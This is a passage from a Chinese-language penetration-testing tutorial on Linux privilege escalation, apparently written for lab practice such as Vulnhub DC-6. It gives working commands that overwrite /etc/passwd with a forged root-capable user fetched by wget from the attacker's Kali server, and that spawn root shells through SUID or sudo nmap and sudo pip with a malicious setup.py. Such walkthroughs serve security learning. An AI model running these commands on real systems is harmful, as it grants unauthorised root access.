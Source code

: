 通过OpenSSL passwd生成一个新的用户hacker，密码为hack123，并将其追加到kali的/etc/passwd文件中
```
openssl passwd -1 -salt hacker hack123
```

在Kali上启动一个python服务器
```
python2 -m SimpleHTTPServer 8000
```

将Kali上的passwd文件下载到靶机etc目录下并覆盖原来的passwd文件
```
wget -O passwd http://10.10.10.128:8000/passwd
```
![](./assets/1671607724512-d778ca6d-812d-4c80-823d-5a29587e4243.jpeg)

然后切换到hacker用户即可<br />![](./assets/1671607738985-290c1f71-3918-43e9-9604-9b69aac681f2.jpeg)


## 10.2、NMAP提权
**例一**<br />nmap被suid分配了root权限
```
find / -perm -u=s -type f 2>/dev/null
```
![](./assets/1671607838245-f378a950-d376-44c9-9112-cdbf6ee39dcc.jpeg)

用nmap来提权
```
nmap --interactive
!sh
```
![](./assets/1671607876354-3a5229cc-9542-47bf-a4e0-86dfabf8760a.jpeg)

**例二**<br />当单个用户被分配了root权限时
```
find / -perm -u=s -type f 2>/dev/null
```
![](./assets/1671607955754-28023835-9d61-41f0-84e7-0f6489f724a4.jpeg)

nmap提权
```
echo "os.execute('/bin/bash')" >> shell.nce
sudo nmap --script=/tmp/shell.nce
```
![](./assets/1671608007881-59093e83-ab71-443f-bb38-7d153dbb4525.jpeg)

应用参考链接：[DC-6](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-6)


## 10.3、PIP提权
pip命令被分配了root权限<br />![](./assets/1671526003023-46c175a0-d542-43f9-bd1b-f3d9f9b70062.png)

**方法一**
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
![](./assets/1671526741086-9aaea337-94ed-4cd0-b0b4-08dc5f42aa1c.png)
